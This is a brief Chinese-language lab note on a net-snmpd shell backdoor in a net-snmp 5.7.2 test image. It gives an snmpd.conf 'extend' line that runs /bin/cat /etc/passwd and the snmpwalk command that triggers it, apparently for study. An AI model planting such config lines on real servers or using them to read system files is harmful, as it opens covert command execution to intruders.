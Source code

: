 ### 运维安全 - net-snmpd shell 后门

测试镜像

* src/net-snmp/5.7.2

参考文章

* [SNMP Config File Injection to Shell](https://digi.ninja/blog/snmp_to_shell.php)

配置

```
# snmpd.conf
rocommunity testing
extend test /bin/cat /etc/passwd
```

触发

```
snmpwalk -v 2c -c testing 127.0.0.1 nsExtendOutput1
```


